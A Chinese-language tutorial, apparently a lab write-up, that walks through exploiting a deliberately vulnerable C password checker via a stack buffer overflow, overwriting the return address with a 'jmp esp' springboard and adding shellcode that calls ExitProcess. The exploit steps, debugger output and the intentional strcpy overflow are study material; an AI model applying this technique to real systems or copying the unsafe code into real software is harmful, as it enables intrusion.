









# Use springboard

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"

int verify_password (char *password)
{
	int authenticated;
	char buffer[44];
	authenticated = strcmp(password, PASSWORD);
	strcpy(buffer, password);//over flowed here!	
	return authenticated;
}

int main()
{
	int valid_flag = 0;
	char password[1024];
	FILE * fp;
	LoadLibrary("user32.dll");//prepare for messagebox
	if(!(fp = fopen("password.txt", "rw+")))
	{
		exit(0);
	}
	fscanf(fp, "%s", password);
	valid_flag = verify_password(password);
	if(valid_flag)
	{
		printf("incorrect password!\n");
	}
	else
	{
		printf("Congratulation! You have passed the verification!\n");
	}
	fclose(fp);
	system("pause");
	return 0;
}
```

当输入11个`4321`，执行到retn的时候，可以看到ESP寄存器的值是`0x0012FB24`



现在我们把输入的数字变成14个`4321`

虽然程序跳到了不知道什么地方的地方，然而ESP寄存器的值依旧是`0x0012FB28`



寄存器的值，EBP被我们的数据覆盖掉了



```
EAX 31323334
ECX 0012FBB4 ASCII CC,"烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫"
EDX 00323334
EBX 7FFDC000
ESP 0012FB28
EBP 31323334
ESI 0012FB2C
EDI 0012FF80
EIP 00323334
```

因为ESP寄存器在函数返回后不被溢出的数据干扰，看上面两次的测试就可以看出来，不管有没有溢出，函数返回后ESP寄存器的值都是`0x0012FB28`

这时候隆重来介绍一下`jmp esp`，简单来说呢，就是用这句汇编来覆盖返回地址，具体怎么做接下来慢慢讲

首先用插件来搜索`jmp esp`，用现成的最好了，如果没有的去搜一下，`ollyuni.dll`

然后就可以用了



搜一下`jmp esp`那个，当然中间会卡一下，卡完之后就可以点击`L`看信息了



思来想去，决定选择`0x7FFA4512`

```
0027762F   Location found: call esp in [unknown]
00277A0D   Location found: call esp in [unknown]
00277A17   Location found: call esp in [unknown]
003010C8   Location found: call esp in [unknown]
00305028   Location found: jmp esp in [unknown]
00402166   Location found: jmp esp in stack_ov.text
00429233   Location found: call esp in stack_ov.rdata
7C8369C0   Location found: call esp in kernel32.text
7C871613   Location found: call esp in kernel32.text
7FFA4512   Location found: jmp esp in [unknown]
7FFA54CD   Location found: jmp esp in [unknown]
           11 addresses found, 0 filtered
```

好了，有了这个之后就可以开始下面的工作了

前面说到，程序在后面没有正常退出而是直接崩溃了，那么现在就来解决这个问题，方法也很简单，直接`exit`就好了

同样利用Dependency Walker找到`kernel.dll`的基址和`ExitProcess`的偏移，然后找个计算器加起来
```
0x7C800000 + 0x0001D20A = 0x7C81D20A
```



现在来准备password.txt

我们大概的过程先是把buffer都给覆盖掉，然后返回地址覆盖上刚刚的`jmp esp`的内存地址，再往下就是shellcode

行动！！！！！！



其实呢，这个shellcode是有点问题的，为什么呢？

这涉及到了截断的问题，B8 0A是一定会被截断的，所以……，往下看

重新载入，运行起来



的确是被截断了，后面那个00就是截断符，至于为什么后面再说，咱们这里先手动改一下
```
0012FB45    B8 0AD2817C     mov     eax,kernel32.ExitProcess
0012FB4A    FFD0            call    eax
```




然后继续运行，成功退出了：）


